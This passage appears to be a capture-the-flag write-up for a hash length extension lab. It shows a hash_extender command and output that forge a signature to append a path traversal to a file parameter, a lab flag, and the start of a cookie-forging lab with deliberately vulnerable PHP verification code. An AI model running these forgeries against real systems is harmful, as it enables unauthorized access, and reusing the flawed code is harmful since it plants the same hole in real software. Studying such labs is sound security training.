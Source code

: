 
```
http://lea.thm/labs/lab1/product.php?file=1.png&signature=02d101c0ac898f9e69b7d6ec1f84a7f0d784e59bbbe057acb4cef2cf93621ba9


./hash_extender --data 1.png --signature 02d101c0ac898f9e69b7d6ec1f84a7f0d784e59bbbe057acb4cef2cf93621ba9 --append /../4.png --out-data-format=html




Type: sha256
Secret length: 8
New signature: a9f7878a39b10d0a9d3d1765d3e83dd34b0b0242fa7e1567f085a5a9c467337a
New string: 1%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%2f%2e%2e%2f4%2epng

Type: sm3
Secret length: 8
New signature: b3503f8697adb6906472c4115b8732ceed307217e19b808bdb94795c2021fca6
New string: 1%2epng%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00h%2f%2e%2e%2f4%2epng



1.png&signature=02d101c0ac898f9e69b7d6ec1f84a7f0d784e59bbbe057acb4cef2cf93621ba9


THM{L3n6th_3Xt33ns10nssss}

```


## practical - modify signed cookie 


The application hosted at [http://lea.thm/labs/lab2/](http://lea.thm/labs/lab2/) uses cookies to store information such as session token and authentication hash. 

```
Login page    user : user 
browser > inspect > Application > Cookies
```

To prevent tampering, it signs the cookies named **auth** with a SHA-256 hash based on a secret key. However, since SHA-256 is vulnerable to length extension attacks, we can potentially alter the cookie's content while keeping the signature valid, allowing us to gain unauthorized access.

Here's the vulnerable code that verifies the authenticity of the cookie:

```php
require_once("secrets.php");

// Default authorization status
$auth = false;

// Check if the 'auth' and 'hsh' cookies are set
if (isset($_COOKIE["auth"]) && isset($_COOKIE["hsh"])) {
    $auth = $_COOKIE["auth"]; // Get the original auth string
    $hsh = $_COOKIE["hsh"];

    // Verify the hash to ensure integrity
    if ($hsh === hash("sha256", $SECRET . $auth)) {
        // Instead of trying to parse, check if 'role=1' exists in the string
        if (strpos($auth, 'role=1') !== false) {
            echo "<html><head><title>Admin Panel</title></head><body>";
```